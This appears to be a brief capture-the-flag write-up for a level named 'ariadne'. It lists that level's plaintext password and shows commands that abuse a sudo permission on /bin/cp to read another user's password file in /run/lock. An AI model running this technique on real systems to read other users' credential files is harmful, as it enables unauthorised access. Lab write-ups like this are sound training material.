 # username
ariadne
# password
iNgNazuJrmhJKWixktzk
# mission contents
The user arete lets us use cp on her behalf.
# method of solve
We are given `sudo` permissions as the `arete` user with the `/bin/cp` binary
```
sudo -l
find / -group arete 2>/dev/null #find the password file
LFILE=/run/lock/arete_pass.txt
sudo -u arete /bin/cp "$LFILE" /dev/stdout
```
